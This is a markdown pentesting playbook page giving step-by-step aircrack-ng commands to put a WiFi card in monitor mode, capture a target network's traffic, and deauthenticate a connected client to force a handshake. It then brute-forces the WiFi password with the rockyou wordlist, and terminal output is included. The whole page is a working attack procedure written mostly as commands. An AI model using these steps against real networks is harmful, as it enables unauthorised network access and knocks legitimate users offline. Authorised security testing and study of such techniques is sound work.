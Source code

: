 ```yaml
---
slug: /playbooks/wifi
pagination_next: null
pagination_prev: null
---
```

# Pentesting wifi networks

Put your wifi interface in monitor mode to capture not only the WiFi traffic routed to the device, but all the traffic that is transmitted over the air.

## Enable monitor mode

1. Check if you have processes that will interfere with monitor mode:

```bash
└─$ sudo airmon-ng check                                                    
[sudo] password for gal: 

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    817 avahi-daemon
    839 avahi-daemon
    891 NetworkManager
    963 wpa_supplicant
```

2. Kill them

```bash
┌──(gal㉿gal)-[~/workspace/gal/docs]
└─$ sudo airmon-ng check kill

Killing these processes:

    PID Name
    963 wpa_supplicant
```

3. Start monitor mode

```bash
└─$ sudo airmon-ng start wlan0  


PHY     Interface       Driver          Chipset

phy0    wlan0           iwlwifi         Intel Corporation Alder Lake-P PCH CNVi WiFi (rev 01)
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

Now `wlan0` might change to `wlan0mon`

## Capture the traffic

1. Start checking what's around:

```bash
sudo airodump-ng wlan0mon
```

2. Once you have found a target, specify the channel and the bssid:

```bash
sudo airodump-ng --bssid 66:8B:92:F9:A2:9A  -w /tmp/guifiwc wlan0mon -c 11
```

This will store the traffic in the specified files with `-w`. Once you find an station connected to the bssid, you can start a `de-auth` attack.

## Deauth attack

The deauth attack will send packets to the WiFi client to force a de-authentication and a later authentication within the network. This will produce a bunch of auth messages signed with the hash of the WiFi password, which later we'll try to bruteforce with a dictionary attack.

```bash
sudo aireplay-ng -0 2 -c FA:50:A4:49:2F:AA -a 66:8B:92:F9:A2:9A wlan0mon
```

`-0` means deauth and `2` is the number of deauth packets to send
`-c` is the client MAC address
`-a` is the station BSSID.

Once this is done successfully, `airodump` will show a bunch of received data.

## Crack the password

Now pass the capture to `aircrack-ng` to bruteforce the password using a dictionary:

```bash
aircrack-ng -a2 -b 66:8B:92:F9:A2:9A -w /usr/share/wordlists/rockyou.txt /tmp/guifiwc-02.cap
```

## Revert to normal mode

Stop airmin-ng:

```bash
└─$ sudo airmon-ng stop wlan0mon

PHY     Interface       Driver          Chipset

phy0    wlan0mon        iwlwifi         Intel Corporation Alder Lake-P PCH CNVi WiFi (rev 01)
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
```

You might need to start `NetworkManager` or similar:

```bash
sudo NetworkManager
```

More: https://github.com/ricardojoserf/wifi-pentesting-guide?tab=readme-ov-file#4